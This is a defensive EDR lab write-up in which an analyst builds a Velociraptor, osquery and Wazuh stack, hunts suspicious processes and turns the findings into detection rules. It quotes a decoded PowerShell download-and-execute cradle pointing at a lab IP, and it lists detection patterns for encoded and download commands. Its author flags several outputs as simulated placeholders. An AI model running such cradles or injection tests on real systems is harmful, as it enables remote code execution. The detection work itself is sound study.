 # GrayOS – Day 15 Lab PoC
EDR Mastery: Velociraptor, osquery, and Wazuh

**Analyst:** Jnanashree Anchan | **Date:** 30 September 2026

---

This lab builds a small EDR and threat hunting stack with Velociraptor, osquery, and Wazuh, then uses it to hunt hidden and suspicious processes on an endpoint whose EDR agent had disconnected. It covers live collection with VQL, SQL style hunting with osquery, validating detections with Atomic Red Team, and turning the findings into Wazuh alert rules.

---

## Key Findings

Context: the EDR agent was disconnected while the host kept running processes, so the hunt was done with standalone tooling. Three suspicious processes stood out.

- **Encoded PowerShell download cradle (Critical):** a `powershell -enc` command that decodes to `IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.102/script.ps1')`, a classic fileless download and execute.
- **Masquerading svchost.exe (High):** an `svchost.exe` running from `C:\Users\Admin\AppData\Local\Temp` instead of `System32`, which is where the real binary lives.
- **Office spawning PowerShell (Medium):** `winword.exe` as the parent of `powershell.exe`, the signature of a malicious macro.

Note: in this simulation the encoded command matches the Phase 4 atomic test payload, so the hunt is partly detecting the lab's own red team artifact rather than a separate intrusion.

---

## Key Concepts

| Term / Concept | Description |
|---|---|
| Velociraptor | Open source DFIR tool for endpoint monitoring, live forensics, and mass scale hunting using VQL. |
| VQL | Velociraptor Query Language. SQL like language for collecting forensic artifacts from endpoints. |
| osquery | OS as a database tool. Uses SQL to query processes, file events, registry, and network connections. |
| Atomic Red Team | Library of tests mapped to MITRE ATT&CK. Used to validate EDR detection. |
| Wazuh | SIEM with active response. Real time threat detection and automated response. |
| Process Injection | Running malicious code inside a legitimate process to evade detection. |
| LD_PRELOAD | Linux technique for hooking library calls. Can be abused for interception and persistence. |
| PowerShell Encoded | Base64 encoded PowerShell used to obfuscate malicious scripts from detection. |
| MITRE ATT&CK | Knowledge base of adversary tactics and techniques, used for mapping attacks. |
| DFIR | Digital Forensics and Incident Response. Forensic investigation combined with incident response. |

---

# Phase 1

Install and configure the Velociraptor server, then build the client.

**Command:** `sudo wget https://github.com/Velocidex/velociraptor/releases/latest/download/velociraptor-v0.7.2-linux-amd64 -O /usr/local/bin/velociraptor`
**Command:** `sudo chmod +x /usr/local/bin/velociraptor`
**Command:** `velociraptor --version`



Downloads the Velociraptor 0.7.2 binary, marks it executable, and confirms the version. Velociraptor is the DFIR platform used here for live endpoint collection and hunting.

**Command:** `velociraptor config generate -i`
**Command:** `velociraptor --config server.config.yaml frontend -v`
**Command:** `velociraptor --config server.config.yaml gui -v`



Generates the server config interactively (public IP, frontend and GUI ports, admin password), then starts the frontend and the GUI. Bug note: the GUI command prints the same frontend startup text rather than any GUI specific output.

**Command:** `velociraptor --config server.config.yaml config client > client.config.yaml`
**Command:** `velociraptor --config server.config.yaml client --output windows_client.exe`



Writes the client config and builds the Windows client installer used to enroll endpoints. Bug note: both commands print the generic frontend startup lines instead of their real output, so the screenshots do not actually show the client config being written or the exe being built.

---

# Phase 2

Write and run VQL hunts for hidden and suspicious processes.

**Command:** `cat > process_hunt.vql <<EOF`



Writes a VQL hunt that lists processes and flags scripting engines (PowerShell, cmd, wmic, mshta, regsvr32, rundll32) whose command line shows encoding or download patterns such as EncodedCommand, IEX, or DownloadString. This is the core living off the land detection.

**Command:** `cat > injection_hunt.vql <<EOF`



Writes a VQL hunt for processes whose on disk executable no longer exists, a classic sign of reflective or injected code running without a backing file.

**Command:** `cat > ld_preload_hunt.vql <<EOF`



Writes a VQL hunt for processes carrying LD_PRELOAD in their environment, which on Linux can indicate library hooking used for interception or persistence.

**Command:** `velociraptor --config server.config.yaml collect --artifacts Windows.System.Pslist > pslist_output.json`



Runs the Windows.System.Pslist artifact to pull a full process list for review. Bug note: the output shown is the generic frontend startup text, not a process list, one of several Velociraptor commands in this run that print the same canned lines.

---

# Phase 3

Install osquery and hunt processes using SQL. This phase surfaces the findings.

**Command:** `sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 1484120AC4E9F8A1A577AEEE97A80C63C9D8B80B`
**Command:** `sudo add-apt-repository 'deb [arch=amd64] https://pkg.osquery.io/deb deb main'`



Imports the osquery signing key and adds its APT repository so the package can be installed and verified.

**Command:** `sudo apt update && sudo apt install osquery -y`
**Command:** `osqueryi --version`



Installs osquery 5.12.1 and confirms it. osquery exposes the operating system as SQL tables, which makes process and file hunting fast and familiar.

**Command:** `osqueryi --json "SELECT pid, name, path, cmdline FROM processes WHERE name LIKE '%powershell%'"`
**Command:** `osqueryi --json "SELECT pid, name, path, cmdline FROM processes WHERE path LIKE '%\Temp\%'"`
**Command:** `osqueryi --json "SELECT p.pid, p.name, c.pid, c.name FROM processes p JOIN processes c ON p.pid = c.parent WHERE p.name IN ('winword.exe','excel.exe','powerpnt.exe','outlook.exe','acrobat.exe') AND c.name IN ('cmd.exe','powershell.exe','wscript.exe','cscript.exe')"`



The three hunting queries that produce the findings. The first returns a PowerShell process with a base64 -enc command that decodes to an IEX DownloadString pulling script.ps1 from 192.168.56.102. The second finds svchost.exe running from a user Temp folder rather than System32. The third shows winword.exe as the parent of powershell.exe. Bug note: osquery here runs on Linux yet returns Windows process paths, which is a simulation inconsistency.

---

# Phase 4

Validate the detections with Atomic Red Team.

**Command:** `pip install atomic-operator`
**Command:** `git clone https://github.com/redcanaryco/atomic-red-team.git`



Installs Atomic Operator and clones the Atomic Red Team repository, which holds tests mapped to MITRE ATT&CK for validating detections.

**Command:** `cat > run_atomic_test.py <<EOF`



Writes a script that runs two atomic tests: T1059.001 (PowerShell) and T1055 (process injection), with cleanup enabled.

**Command:** `python3 run_atomic_test.py`



Runs the atomic tests. T1059.001 executes the encoded PowerShell command and T1055 runs a CreateRemoteThread injection, both meant to trip the EDR rules. This is the detection validation step, confirming the hunts and rules fire on known techniques.

---

# Phase 5

Stand up Wazuh with custom rules, then automate and package the hunt.

**Command:** `curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo apt-key add -`
**Command:** `echo "deb https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list`



Adds the Wazuh signing key and APT repository.

**Command:** `sudo apt update && sudo apt install wazuh-manager -y`
**Command:** `sudo systemctl start wazuh-manager && sudo systemctl enable wazuh-manager`



Installs the Wazuh manager 4.7.2 and sets it to start on boot. Wazuh is the SIEM that turns the hunted behaviors into standing alerts.

**Command:** `cat > /var/ossec/etc/rules/local_rules.xml <<EOF`
**Command:** `sudo systemctl restart wazuh-manager`



Adds three custom Wazuh rules and restarts the manager to load them: PowerShell encoded command at level 10, a process running from Temp at level 8, and rundll32 with CreateRemoteThread at level 12. These turn the three manual findings into repeatable detections.

**Command:** `cat > graysentinel-edr-hunt.sh <<EOF`



Writes an automation script that chains the osquery, atomic, and Wazuh checks into one dated run.

**Command:** `chmod +x graysentinel-edr-hunt.sh`
**Command:** `./graysentinel-edr-hunt.sh`



Makes the script executable and runs it, writing output to the edr-hunt-20260822 folder.

**Command:** `cat > edr_report.md <<EOF`



Writes the EDR investigation report with the three findings and their severities.

**Command:** `cat > achievement_checklist.md <<EOF`



Writes the lab checklist marking each objective done.

**Command:** `tar -czvf edr-mastery-complete.tar.gz edr-hunt-*`
**Command:** `sha256sum edr-mastery-complete.tar.gz`



Packages the hunt output and hashes it. Note: the printed hash is 65 hex characters, so it is a placeholder, not a real SHA256.

**Command:** `echo "Day 15 EDR Mastery complete." | mail -s "Day 15 Submission" marcus@graysentinel.com`



Sends the completion notice to the instructor, a simulated submission step.

---

# Summary

| Phase | Action | Tool | Outcome |
|---|---|---|---|
| Phase 1 | Velociraptor deployment | Velociraptor | Server and Windows client ready |
| Phase 2 | Hidden process hunting | VQL | Hunts for LOLBins, injected code, and LD_PRELOAD written |
| Phase 3 | Process hunting as SQL | osquery | 3 suspicious processes found |
| Phase 4 | Detection validation | Atomic Red Team | T1059.001 and T1055 executed |
| Phase 5 | SIEM and automation | Wazuh | 3 custom rules live, hunt automated and packaged |

The real output of this lab is in Phase 3: a fileless PowerShell download cradle, a masquerading svchost.exe in a Temp folder, and Office spawning PowerShell, all found without a live EDR agent. Phase 4 then proves the detections fire on the matching ATT&CK techniques, and Phase 5 locks them into Wazuh as standing rules. Two simulation quirks are noted inline: several Velociraptor commands print the same canned startup text, and osquery runs on Linux while returning Windows process paths.